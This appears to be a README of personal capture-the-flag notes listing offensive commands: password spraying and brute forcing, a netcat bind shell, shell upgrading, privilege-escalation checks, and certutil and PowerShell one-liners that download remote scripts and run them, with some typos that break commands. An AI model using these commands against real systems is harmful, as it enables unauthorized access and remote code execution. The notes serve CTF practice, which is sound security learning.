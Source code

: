# ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs

Windows & *nix:
<p> password spraying:
<p> - crackmapexec [module] -u <users.txt> -p <passwords.txt> <ip or ip range>
- bruteforce
medusa -h <ip> -U <users.txt> -P <passwords.txt> -M <module> <ip> (more options may be required, example used was SSH module)


upgrade shell using python pty library and adds auto complete for steps 2+ :
1 - python -c 'import pty;pty.spawn("/bin/bash")'
2 - CTRL z
3 - stty raw -echo
4 - fg <enter key>
5 - export TERM=xterm

known hosts ssh file will show all hosts the host has SSH'd into

- command to reset a broke terminal session
reset

- mysql syntax for navigation:
show databases; (shows available databases)
use <database name>; (selects database to use)
show tables; (shows tables in database)
describe <table name>; (shows more information on values inside table)
select <table value> from <table>; (shows items inside the table values of the table)
  
- file upload:
curl http://<ip>:<port>/<file> -output <file>    (works with powershell and linux)






*nix:
common privilege escalation techniques:
- seeing if any commands can be run as sude:
sudo -l
- check which programs are avilable on the system for priviledge escalation and send errors away from output
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
- download all FTP contents (--no-passive if passive is not allowed):
wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
- bind shell:
(victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
- listing file/ directory structure:
find . 
- listing file structure and look for specific file/ directory name
find . | grep -i <word to look for>
- show all running processes:
ss -lntp
- 







Windows:

windows powershell locations:
c:\Windows\System32\    - 32 bit
c:\Windows\SysWow64\    - 32 bit
c:\Windows\SysNative\   - 64 bit


File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  
